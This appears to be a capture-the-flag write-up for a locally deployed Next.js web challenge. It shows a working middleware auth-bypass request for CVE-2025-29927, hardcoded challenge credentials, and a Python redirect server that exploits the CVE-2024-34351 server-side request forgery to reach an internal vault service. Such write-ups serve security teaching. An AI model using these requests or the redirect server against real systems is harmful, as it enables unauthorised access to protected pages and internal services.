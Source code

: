 install `docker` and `docker-compose`
```sh
cd ./CTFs/04-2025/web/web2
```
then
```sh
sudo docker-compose up
```
then application should build and run on port 3000 locally
<img src="./Pasted image 20250411224644.png">

the 1 st flag will be obtained by bypassing the auth using  [CVE-2025-29927](https://vercel.com/blog/postmortem-on-next-js-middleware-bypass) 
you could've guessed by provided `package.json` file in the description as a **free** hint:
```json
{
  "name": "vulnerable-app",
  "version": "0.1.0",
  "private": true,
  "scripts": {
    "dev": "next dev",
    "build": "next build",
    "start": "next start",
    "lint": "next lint"
  },
  "dependencies": {
    "@tailwindcss/typography": "^0.5.16",
    "bootstrap": "^5.3.3",
    "emoji-picker-react": "^4.12.2",
    "html2pdf.js": "^0.10.3",
    "jspdf": "^3.0.1",
    "next": "14.0.0",
    "react": "^18",
    "react-dom": "^18",
    "tailwindcss": "^4.0.15"
  },
  "devDependencies": {
    "@types/node": "^20",
    "@types/react": "^18",
    "@types/react-dom": "^18",
    "eslint": "^8",
    "eslint-config-next": "14.0.0",
    "typescript": "^5"
  }
}
```

Next js version as follows:
```json
...
"next": "14.0.0"
...
```

you can use this Poc https://github.com/MuhammadWaseem29/CVE-2025-29927-POC
```http
GET /dashboard HTTP/1.1
Host: 192.168.0.85:3000
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```

<img src="./Pasted image 20250411225646.png">

to bypass the auth and get access to the dashboard, click the "GETFLAG 1" button

**FLAG2 ...**

to get the 2 nd flag you should reach the internal host `http://vault-app:8001`
There was 2 ways to know internal IP of that vault-app
1. Scan the default subnet of docker containers by brute-forcing IP addresses
2. Get the hint for 100 points, in the hint i was shared `docker-compose.yml` used to build the whole application as follows:
```yml
version: '3.8'

networks:
  vault_net:
    driver: bridge
    ipam:
      config:
        - subnet: 172.30.0.0/24

services:
  next-app:
    build:
      context: ./next-app
    container_name: next-app
    ports:
      - "3000:3000"
    depends_on:
      - vault-app
    networks:
      vault_net:
        ipv4_address: 172.30.0.20
    command: >
      sh -c "npm install &&
             npm run build &&
             npm start"

  vault-app:
    build:
      context: ./vault-internal
      dockerfile: Dockerfile
    container_name: vault-app
    env_file:
      - ./vault-internal/.vault.env
    networks:
      vault_net:
        ipv4_address: 
```

you can see the vault app has given IP of `172.30.0.10` and you can see the port number in the conversation between Intern and DevOps in `/dashboard` page

Here is overall scenario
<img src="./Pasted image 20250412123417.png">

Explore how vault-app works (source can be downloded with "Download" button)
App can be authenticated with
`Authorization-Internal: Basic <b64 encoded credentials>`
you can see credentials were  `coder:Employee@2025` . The auth header will be 
`Authorization-Internal:Basic Y29kZXI6RW1wbG95ZWVAMjAyNQ==`

According to the CVE-2024-34351 to exploit you need an attacker server IP that does redirect incoming requests to the internal host , which is `http://172.30.0.10:8001`

Can be constructed with , following python code:
```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import urlparse
import json

class SimpleHandler(BaseHTTPRequestHandler):
    def do_HEAD(self):
        self.send_response(200)
        self.send_header('Content-Type', 'text/x-component')
        self.end_headers()

    def do_GET(self):
        ssrf = self.headers.get('ssrf', 'http://172.30.0.10:8001')
        
        log_data = {
            'url': self.path,
            'method': self.command,
            'ssrf': ssrf
        }
        print("Request received: " + json.dumps(log_data))
        print(f"Redirecting to: {ssrf}")

        self.send_response(302)
        self.send_header('Location', ssrf)
        self.end_headers()

def run(server_class=HTTPServer, handler_class=SimpleHandler, port=8000):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f'Listening on port {port}...')
    httpd.serve_forever()

if __name__ == '__main__':
    run()
```

and new attack scenario will be:
<img src="./Pasted image 20250412153919.png">

you need an attacker server should be prepared with public IP (in our case private IP also works because you're deploying the app locally)

<img src="./Pasted image 20250412154820.png">

SSRF bug was cause by next js actions (can be triggered by clicking "Internal" button)
to achieve the results you should replace your `Host: <attacker-IP>` , `Origin: http(s)://<attacker-IP>`
then we can see the response coming from the vault app here:
<img src="./Pasted image 20250412155156.png">

and FLAG2:
<img src="./Pasted image 20250412155302.png">

FLAG2 was the task which gives you max points (1000) in  CTF